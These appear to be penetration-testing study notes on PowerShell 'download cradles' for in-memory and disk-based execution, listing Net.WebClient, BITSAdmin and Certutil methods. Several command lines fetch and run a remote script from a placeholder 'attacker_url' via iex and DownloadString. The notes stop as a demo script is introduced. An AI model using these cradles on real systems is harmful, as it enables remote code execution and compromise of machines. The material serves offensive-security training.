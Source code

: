 


# Summary of methods we can use for "Disk-Based" execution with PowerShell v2.0

Net.WebClient DownloadFile Method

BITSAdmin.exe

Certutil.exe w/ -urlcache argument



These two methods (in-memory and disk-based) are usually accomplished using what are commonly 
referred to as "Download Cradles" and use the "System.Net.WebClient" .Net System Class among
other classes, COM Objects or other Windows-native executables to achieve this


Most of the time, we use the New-Object cmdlet

The New-Object cmdlet, as its name infers, allows us to create instances (objects ) of either .Net or
COM objects


# Net.WebClient DownloadString Method

The most common download cradle we'll see in the field uses the "iex" (Invoke-Expression) alias along
with the Net.WebClient class and the DownloadString method, which downloads and executes a remotely hosted
PowerShell script, and can be done with a command like the following: 


PS C:\> iex (New-Object Net.WebClient).DownloadString("http://attacker_url/script.ps1")


We can run the same command from a standard windows command prompt


C:\> powershell.exe iex (New-Object Net.WebClient).DownloadString('http://attacker_url/script.ps1')


The DownloadString URL using cmd prompt uses single quotes instead of double quotes


We can also break the above commands down and execute them directly via the console with something like
this as well

PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_url/script.ps1"
PS C:\> $command = $downloader.DownloadString($payload)
PS C:\> Invoke-Expression $command



To demonstrate how this works we can create a really simple single-command PowerShell script with 
the following contents, which we then host on our attacker system:

